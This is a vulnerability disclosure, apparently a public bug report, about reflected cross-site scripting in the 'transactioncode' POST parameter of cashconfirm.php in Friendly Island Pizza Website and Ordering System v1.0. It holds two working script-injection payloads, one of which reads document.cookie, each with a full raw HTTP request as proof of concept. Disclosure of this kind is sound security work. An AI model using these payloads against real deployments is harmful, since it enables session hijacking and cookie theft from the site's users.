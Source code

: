 # Friendly Island Pizza Website and Ordering System v1.0 has Cross-site scripting (reflected)

BUG_Author: JiaQi Yang

Vulnerability File: /FriendlyIsPizzaWebsite/cashconfirm.php

Parameter "transactioncode" (POST), exists XSS vulnerability

Payload1:transactioncode=<script>alert(111)</script>&grandtotal=2&cusid=3

```
POST /FriendlyIsPizzaWebsite/cashconfirm.php HTTP/1.1
Host: localhost
Content-Length: 78
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/FriendlyIsPizzaWebsite/cashconfirm.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

transactioncode=%3Cscript%3Ealert%28111%29%3C%2Fscript%3E&grandtotal=2&cusid=3
```

![image](https://github.com/2889436547/bug_report/blob/main/pictures/xss1.png)

Payload2:transactioncode=<script>alert(document.cookie)</script>&grandtotal=2&cusid=3

```
POST /FriendlyIsPizzaWebsite/cashconfirm.php HTTP/1.1
Host: localhost
Content-Length: 90
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/FriendlyIsPizzaWebsite/cashconfirm.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=updr4q113dildbo75ti98camsc
Connection: close

transactioncode=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&grandtotal=2&cusid=3
```

![image](https://github.com/2889436547/bug_report/blob/main/pictures/xss2.png)
